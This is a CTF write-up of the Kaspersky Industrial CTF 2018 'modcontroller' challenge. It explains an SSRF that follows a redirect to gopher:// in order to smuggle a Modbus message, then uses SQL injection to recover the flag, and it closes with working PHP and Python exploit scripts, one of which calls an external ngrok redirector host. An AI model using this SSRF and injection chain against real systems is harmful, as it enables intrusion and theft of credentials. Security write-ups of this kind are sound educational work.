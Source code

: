 ```yaml
---
layout: post
title: Kaspersky Industrial CTF 2018 - modcontroller
description: Writeup for challenge "modcontroller" of Kaspersky Industrial CTF 2018.
comments: true
---
```


This weekend I played Kaspersky Industrial CTF 2018 with [spritzers](http://spritz.math.unipd.it/spritzers.html), where we got 7th place.
Not bad considering most of us couldn't play (and I slept _way_ too much :P).
I liked "modcontroller", a pwn challenge worth 994 points in the end.
It actually was more of a web challenge than a pwn one, and I enjoyed doing something different than usual.

> Can you guess the admin password?
> 
> http://modcontroller.2018.ctf.kaspersky.com/

You can grab the challenge binary [here](/assets/ctf/kaspersky18/modcontroller).

### Overview

I won't go into reversing the whole thing, it's not too complex but would take up a lot of space.
The binary contained two servers: a HTTP server (using libmicrohttpd) and a TCP/IP Modbus server on port 1502.
The HTTP server was exposed, while the Modbus server was bound only on localhost.

### The HTTP server

This server had two routes:
- `/static`: unathenticated, accepts a `url` GET parameter and makes an HTTP GET request to that URL using libcurl, then sends back the response body.
- Every other URL: protected by HTTP basic auth (hardcoded username `admin`), shows a hardcoded image (not interesting).

To store passwords, the server uses a SQLite database (`passwd.db`), which contains a `K` table with a (unique) `P` column.
To check a password, it performs the following query: `SELECT P FROM K WHERE P = ?`, where `?` is bound to the password.

### The Modbus server

This server has the sole purpose of allowing to add passwords for the HTTP authentication.
It works on the same `passwd.db` database and, when it receives a certain message, it performs `INSERT OR IGNORE INTO K(P) SELECT '%s'`, where `%s` is the password contained in the message: this is vulnerable to SQL injection.
If we're able to communicate with the Modbus server, we can insert passwords and gain access to the HTTP server -- maybe the hardcoded image is different on the real challenge server.
Moreover, we can perform SQL injections.

### The SSRF

It looks like communicating with the Modbus server is the way to go.
Unfortunately, the server is only reachable locally.
However, the `/static` endpoint allows to perform an HTTP GET request on an arbitrary URL, so we have a Server Side Request Forgery.

The server ensures that the URL begins with `http://` or `https://`, so the protocol is restricted to HTTP(S).
The raw bytes of HTTPS requests are not really controllable, so let's stick with HTTP.
My first attempt was with requests like `/static?url=http://127.0.0.1:1502/<x>`, which will send `GET /<x> ...` to the Modbus server.
I needed to figure out how to smuggle a Modbus message inside of this.

I will explain the Modbus message in the next section, however, a couple facts seem to help us out here:
- The first 7 bytes are ignored: therefore, the `GET /` prefix will be ignored.
- Trailing bytes are ignored: all the other HTTP stuff that follows our `<x>` will be ignored.

Given this, it seems possible to build a Modbus message and smuggle it into the requested URL.
However, it doesn't work, because the Modbus message needs to contain a few NUL bytes.
While we can encode them as `%00` in the `url` parameter to `/static`, the URL will then be treated as a C string by the HTTP server and libcurl.
Therefore, the message will be truncated at the first NUL.
Back to the drawing board...

After a while, I noticed that the HTTP server was setting the `CURLOPT_FOLLOWLOCATION` option for the GET request.
This instructs libcurl to follow HTTP redirects (3xx codes).
I set up a local HTTP server (`php -S`) with a PHP script that redirected to a different protocol, then requested it via `curl -L`.
Sure enough, it happily followed the redirect.
This means we're no longer restricted to HTTP(S) for the SSRF, which is very good news!
Unfortunately, curl won't follow `file://` redirects, so we can't dump `passwd.db` (where I assume the flag is stored).

A nice trick when we can control the protocol is to use `gopher://`.
A request to `gopher://host:port/x<data>` will open a connection to `host:port` and send raw (urldecoded) `<data>` on the socket (`x` is an arbitrary character, it's ignored).
Therefore, we can set up an HTTP server that redirects to `gopher://127.0.0.1:1502/x<data>`, then request our server through the SSRF, and libcurl will send `<data>` to the Modbus server.
Now we can communicate with the Modbus server.
Time to craft a message.

### The Modbus message

After spending some time reading libmodbus and reversing the Modbus server, I figured out the format of messages the the server wanted:

```
+0x0: 7-byte header (ignored)
+0x7: 0x10 (MODBUS_FC_WRITE_MULTIPLE_REGISTERS)
+0x8: 0x00 0x01 (?)
+0xa: 0x00 0x10 (# of regs, big endian)
+0xc: 0x20 (password length)
+0xd: 32-byte password
```

The 32-byte password is then NUL-terminated and `sprintf`ed into `INSERT OR IGNORE INTO K(P) SELECT '%s'`.
Note that by padding the password with NULs we can have passwords that are less than 32 bytes.
It just has to be 32 bytes of data in the message.

First thing I tried was adding a password and logging into the HTTP server.
The image was exactly the same as the hardcoded one.
All right, I guess we need to exploit the SQL injection while limited to 32 characters.

We suspect that the flag is the original admin password.
We know that flags begin with `KLCTF{`.
By injecting a WHERE clause with a `glob`, I determined that there was a password beginning with `KLC` (blame the character limit), so I was pretty confident the suspicion was right.
It took me a while to come up with an injection to reveal the flag with such a restrictive character limit.
In the end, here's what I used (`n` is a placeholder for a 1-2 digit number, `XXXXXX` is a random string):
```
XXXXXX'||substr(P,1,n)from K--
```

This will result in the following query (reformatted for clarity):

```
INSERT OR IGNORE INTO K(P) SELECT 'XXXXXX' || substr(P,1,n) FROM K --'
```

This will add all the password obtained by taking the first `n` characters from every password in `K` and prefixing them with `XXXXXX`.
The prefix doesn't really matter, but we had space in the query and it avoids collisions (and giving an advantage to other teams).

For example, let `n = 7`.
Then, among the passwords that we add to the database, there will be `XXXXXXKLCTF{y`, where `y` is the seventh character of the flag.
We use the HTTP login to bruteforce this character.
Once we have it, we up `n` to 8, bruteforce the eight character, and so forth.
Since this is in linear time and the bruteforce happens over the HTTP login (which is pretty fast), it won't take long to recover the entire flag.

At last, we capture the flag: `KLCTF{M0dbu5_v14_55RF_n07_345y_}`.

### Exploit code

This is the PHP script for redirection and injection (`index.php`):

```php
<?php

$prefix = "97r6B4";
$injection = $prefix . "'||substr(P,1," . $_GET["n"] . ")from K--";

$payload  = str_repeat("A", 7);
$payload .= "%10%00%01%00%10%20";
$payload .= $injection;
$payload .= str_repeat("%00", 0x20 - strlen($injection));

header("HTTP/1.1 303 See Other");
header("Location: gopher://127.0.0.1:1502/x" . $payload);

?>
```

This is the Python script for bruteforcing:

```python
#!/usr/bin/env python2

import requests
import string

BASE = 'http://modcontroller.2018.ctf.kaspersky.com'
STATIC_ENDP = BASE + '/static'
ATTACK_ENDP = 'http://5f88e703.ngrok.io/?n='
PREFIX = '97r6B4'
ALPHABET = string.printable

def static(url):
    r = requests.get(STATIC_ENDP, params={
        'url': url
    })
    return r.status_code == 200

def test_pass(pwd):
    r = requests.get(BASE, auth=('admin', pwd))
    return r.status_code == 200

flag = 'KLCTF{'
while True:
    url = ATTACK_ENDP + str(len(flag) + 1)
    assert(static(url))

    found = None
    for c in ALPHABET:
        if test_pass(PREFIX + flag + c):
            found = c
            break
    if found is None:
        break

    flag += found
    print flag
```
